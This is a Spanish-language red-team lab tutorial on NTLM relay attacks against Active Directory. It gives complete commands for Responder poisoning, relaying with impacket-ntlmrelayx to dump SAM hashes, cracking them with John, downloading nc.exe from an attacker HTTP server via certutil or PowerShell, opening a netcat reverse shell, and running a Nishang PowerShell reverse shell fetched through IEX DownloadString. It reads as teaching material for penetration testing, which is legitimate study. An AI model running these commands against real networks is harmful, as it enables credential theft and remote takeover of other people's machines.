








# NTLM RELAY

## INTRODUCCIÓN


Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **4. Crear usuario Administrador con Password Temporal.**
* **7. Convertir un usuario en Administrador local de los clientes.**
* **8. Generar carpetas compartidas con los administradores locales.**


### Esquema de trabajo

Vamos a explotar el siguiente esquema:

En este caso, no explotamos el **protocolo SMB** para obtener un **Hash NetNTLM-v2** sino que estamos explotando el **protocolo de autenticación NTLM** que acompaña a la petición de un cliente de acceder a un **recurso compartido por SMB** para obtener un **Hash NTLM** con el que directamente puedo obtener acceso mediante **PassTheHash**.

Como podemos ver en las imagenes inferiores, la esencia del ataque es un Man in the Middle durante la autenticación NTLM lo que hace que el atacante termine autenticandose con los credenciales del cliente.

1. El equipo víctima le preguntará al DC, ‘Oye, me puedo autenticar para conectarme a \archivos?’ 
2. El DC le responderá, ‘No se donde está ese recurso’ 
3. El equipo víctima preguntará por tanto a nivel de red, '¿alguno sabe cómo me puedo conectar a \archivos?' 
4. El equipo del atacante responderá y le dirá ‘Yo, autenticate, envíame tu Hash y te conectaré al recurso’ 
5. El equipo víctima responderá ‘Okey, pues ahí te envío mi Hash’

### Herramientas necesarias

A riesgo de ser repetitivo, voy a incluir las herramientas que vamos a utilizar otra vez:

#### Responder

Es un envenenador de tráfico que se puede aplicar a una gran variedad de protocolos.



#### CrackMapExec

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**



#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-ntlmrelayx**



#### PowerSploit Toolkit 

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.



#### John the Ripper

Es un crackeador de Hashes que se caracteríza por su velocidad y versatilidad.



#### RLWrap

Es un wraper \(readline wrapper\) que permite la edición del input del teclado para cualquier comando. Esto es especialmente util a la hora de obtener una reverse shell con netcat ya que la shell obtenida pasa a ser una shell interactiva directamente.



#### Nishang

Es una suite de scripts y payloads que permiten utilizar PowerShell para la seguridad ofensiva.



### Resumen

* Vamos a combinar responder con impacket-ntlmrelayx para conseguir el Hash NTLM.
* Vamos a utilizar John para comprobar si se puede crackear el Hash.
* Vamos a sacar el máximo partido de impacket-ntlmrelayx obteniendo una shell interactiva.
* Vamos a hacer el paso anterior utilizando alguna de las opciones que brinda Nishang.

## EXPLOIT


Algunas de las imágenes estan sacadas de la guía de S4vitar que desarrolla en este [video](https://www.youtube.com/watch?v=LLevcaB4qew&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2).


### 1. Obtener el Hash NTLM

Para obtener el Hash NTLM lo primero que tenemos que hacer es configurar nuestro envenenador de paquetes, el **responder**. 

Como hemos visto en el artículo de [SMB Relay](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/smb-relay), **responder** viene configurado por defecto para envenenar paquetes SMB pero ahora no queremos que haga eso por lo que hay que modificarlo para que quede de la siguiente manera \(Desactivamos SMB y HTTP\):

Debemos preparar un documento con las IPs de los objetivos para el relay:

`echo "IP_VICTIMA" > targets.txt`

Una vez tenemos el responder configurado debemos correr a la vez el **responder** y el **impacket-ntlmrelayx**.

`sudo responder -i eth0 -rwd`

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`


En los sistemas más nuevos es necesario utilizar:  
`impacket-ntlmrelayx -tf fichero.txt -smb2support`   
Ya que trabajan con la versión 2 del protocolo smb y sin esto no obtendremos nada.


Con ambas herramientas a la escucha, es cuestión de tiempo que algún usuario solicite acceso a un recurso compartido inexistente o lo haga alguna herramienta automatizada:

Como podemos ver en la imagen anterior, hemos dumpeado la SAM del equipo **192.168.1.135** que es el equipo cliente que **NO REALIZA LA BUSQUEDA**. 

En este caso, podemos ver que el usuario **mvazquez** \(Administrador local\) ha solicitado desde el equipo **192.168.1.134** acceso a un recurso compartido inexistente llamado **noexisto**. Al no encontrarlo, hemos podido envenenarlo y con estos credenciales dumpear la SAM de la victima que habiamos añadido al documento targets.txt \(equipo **192.168.1.135**\).

Al obtener el dump de la SAM obtenemos todos los Hashes NTLM almacenados en el activo **192.168.1.135** que pueden ser utilizados para PassTheHash.

### 2. Crackear el Hash NTLM

A pesar de que el Hash obtenido se puede utilizar para aplicar la técnica **PassTheHash**, tambien se puede crackear si queremos obterner las contraseñas en texto plano.

En este caso, la parte importante de la SAM es el último Hash de cada usuario. Utilizando john podemos crackearlo facilmente:

`john --wordlist=/usr/share/wordlists/rockyou.txt /RUTA_A/hash.txt --format=NT`

### 3. Ejecución remota de comandos.

Hasta este momento, las capacidades del ataque NTLM Relay son las mismas que las de SMB Relay. Sin embargo, existe una diferencia clave entre las dos. La **ejecución remota de comandos**.

Una vez autenticados como el usuario Administrador local \(sabemos que es administrador local por que no ha dado error a la hora de dumpear la SAM\) podemos utilizar impacket-ntlmrelayx para ejecutar comandos en vez de dumpear la SAM.

#### Obtener una shell interactiva

Para obtener una shell interactiva con este ataque podemos desarrollar el siguiente método.

* Comprobamos que tenemos permisos en el objetivo.
* Subimos un binario de **nc.exe** a la victima.
* Ejecutamos una shell reversa desde la victima.

El primer paso ya lo hemos realizado en el paso anterior, si **impacket-ntlmrelayx** tiene capacidad de dumpear la SAM, podemos esperar tener permisos de ejecución de comandos.

Para el segundo paso, ejecutamos un **servidor http** con python en la máquina atacante y desde la victima descargamos el binario de **netcat** en `C:\Windows\Temp` 

`python3 -m http.server`

Para subir el binario de netcat a la máquina atacante cualquiera de los tres métodos de abajo sirven.

`sudo impacket-ntlmrelayx -tf targets.txt -c "certutil.exe -f -urlcache -split http://192.168.1.132:8000/nc.exe C:\Windows\Temp\nc.exe" -smb2support`

`sudo impacket-ntlmrelayx -tf targets.txt -c "Powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.132:8000/nc.exe','C:\Windows\Temp\nc.exe')" -smb2support`

`sudo impacket-ntlmrelayx -tf targets.txt -c "Powershell (Invoke-WebRequest -Uri 'http://192.168.1.132:8000/nc.exe' -OutFile 'C:\Windows\Temp\nc.exe')" -smb2support`

Una vez cumplidas las dos primeras acciones, procedemos a ejecutar una reverse shell. Para ello ponemos en el atacante un nc a la escucha y ejecutamos el nc en la victima 

`atacante --> nc -lvnp PUERTO` Para obtener una shell más comoda podemos utilizar **rlwrap**.

`victima --> sudo impacket-ntlmrelayx -tf targets.txt -c "C:\Windows\Temp\nc.exe -e cmd 192.168.1.132 4343" -smb2support`

### 4. Shell interactiva premium

¿Y si hubiera una forma más sencilla de cumplir nuestro objetivo final de obtener una shell interactiva?

Para esto utilizamos los recursos de Nishang. Vamos a utilizar el recurso Invoke-PowershellTCP.ps1 así que nos lo llevamos a nuestro directorio de trabajo \(si no sabemos donde está lo buscamos con locate:

`locate nishang`

`cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./PS.ps1`

Ahora que ya tenemos el sript, tenemos que modificarlo:

* Copiamos la linea marcada al final del script.

* Introducimos los datos de nuestra máquina en esta linea final.

Esto permitirá que podamos ejecutar la shell reversa directamente al subir el archivo a la victima ya que con el comando **IEX** haremos que lo ejecute directamente.

Por lo tanto, corremos un netcat a la escucha en el atacante \(como en la sección anterior\) y corremos un servidor http de python para enviar el script.

un impacket-ntlmrelayx que ejecute la subida de PS.ps1 a la victima.

`sudo impacket-ntlmrelayx -tf targets.txt -c "powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.132:8000/PS.ps1')" -smb2support`

## CONCLUSIÓN

Como vemos, el ataque NTLM Relay es más potente que el SMB Relay siempre y cuando contemos con permisos de ejecución de comandos en el activo objetivo.

Las capacidades de post-exploiting son las mismas que las de SMB Relay desde el punto de vista de que los dos ataques se encuentran accesibles en este punto.

## REFERENCIAS

[https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)  
[https://en.hackndo.com/pass-the-hash/](https://en.hackndo.com/pass-the-hash/)  

